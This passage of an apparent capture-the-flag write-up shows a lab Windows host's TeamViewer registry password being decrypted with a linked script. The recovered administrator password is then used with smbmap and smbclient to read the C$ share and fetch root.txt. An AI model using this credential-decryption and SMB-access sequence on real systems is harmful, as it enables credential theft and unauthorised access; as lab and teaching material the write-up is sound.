    SecurityPasswordAES    REG_BINARY    FF9B1C73D66BCE31AC413EAE131B464F582F6CE2D1E1F3DA7E8D376B26394E5B
    MultiPwdMgmtIDs    REG_MULTI_SZ    admin
    MultiPwdMgmtPWDs    REG_MULTI_SZ    357BC4C8F33160682B01AE2D1C987C3FE2BAE09455B94A1919C4CD4984593A77
    Security_PasswordStrength    REG_DWORD    0x3

HKEY_LOCAL_MACHINE\SOFTWARE\WOW6432Node\TeamViewer\Version7\AccessControl
HKEY_LOCAL_MACHINE\SOFTWARE\WOW6432Node\TeamViewer\Version7\DefaultSettings
"
```

The Registry `SecurityPasswordAES    REG_BINARY    FF9B1C73D66BCE31AC413EAE131B464F582F6CE2D1E1F3DA7E8D376B26394E5B` is what we were finding!

### Cracking TeamViewer Credentials

[https://gist.github.com/rishdang/442d355180e5c69e0fcb73fecd05d7e0](https://gist.github.com/rishdang/442d355180e5c69e0fcb73fecd05d7e0)

```bash
python teamviewer_password_decrypt.py 

`
This is a quick and dirty Teamviewer password decrypter basis wonderful post by @whynotsecurity.
Read this blogpost if you haven't already : https://whynotsecurity.com/blog/teamviewer
 
Please check below mentioned registry values and enter its value manually without spaces.
"SecurityPasswordAES" OR "OptionsPasswordAES" OR "SecurityPasswordExported" OR "PermanentPassword"

Enter output from registry without spaces : FF9B1C73D66BCE31AC413EAE131B464F582F6CE2D1E1F3DA7E8D376B26394E5B
Decrypted password is :  !R3m0te!
`
```

## Accessing SMB using Admin Credentials

```bash
smbmap -H 10.129.229.68 -u administrator -p '!R3m0te!'

"
[+] IP: 10.129.229.68:445	Name: 10.129.229.68                                     
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	READ, WRITE	Remote Admin
	C$                                                	READ, WRITE	Default share
	IPC$                                              	READ ONLY	Remote IPC
"
```

```bash
smbclient //10.129.229.68/C$ -U administrator --password '!R3m0te!'

`
Try "help" to get a list of possible commands.
smb: \> ls
  $Recycle.Bin                      DHS        0  Wed Feb 19 20:04:06 2020
  ._nfs                             DHS        0  Tue Oct 10 15:43:27 2023
  Config.Msi                        DHS        0  Fri Jul  9 12:41:30 2021
  Documents and Settings          DHSrn        0  Wed Feb 19 20:03:20 2020
  ftp_transfer                        D        0  Thu Feb 20 06:13:36 2020
  inetpub                             D        0  Wed Feb 19 20:11:33 2020
  Microsoft                           D        0  Thu Feb 20 04:09:44 2020
  pagefile.sys                      AHS 402653184  Tue Oct 10 14:58:06 2023
  PerfLogs                            D        0  Sat Sep 15 08:19:00 2018
  Program Files                      DR        0  Fri Jul  9 12:41:04 2021
  Program Files (x86)                 D        0  Sun Feb 23 19:19:45 2020
  ProgramData                        DH        0  Wed Feb 19 21:16:04 2020
  Recovery                         DHSn        0  Wed Feb 19 20:03:20 2020
  site_backups                        D        0  Sun Feb 23 18:35:48 2020
  System Volume Information         DHS        0  Thu Feb 20 06:43:40 2020
  temp                                D        0  Wed Oct 11 15:40:51 2023
  Users                              DR        0  Wed Feb 19 20:12:25 2020
  Windows                             D        0  Wed Oct 11 16:20:39 2023

		6206975 blocks of size 4096. 3246583 blocks available
smb: \> cd Users
smb: \Users\> cd Administrator
smb: \Users\Administrator\> cd Desktop
smb: \Users\Administrator\Desktop\> get root.txt
getting file \Users\Administrator\Desktop\root.txt of size 34 as root.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
smb: \Users\Administrator\Desktop\>
`
```

# Reference

- [https://gist.github.com/rishdang/442d355180e5c69e0fcb73fecd05d7e0](https://gist.github.com/rishdang/442d355180e5c69e0fcb73fecd05d7e0)
- [https://whynotsecurity.com/blog/teamviewer/](https://whynotsecurity.com/blog/teamviewer/)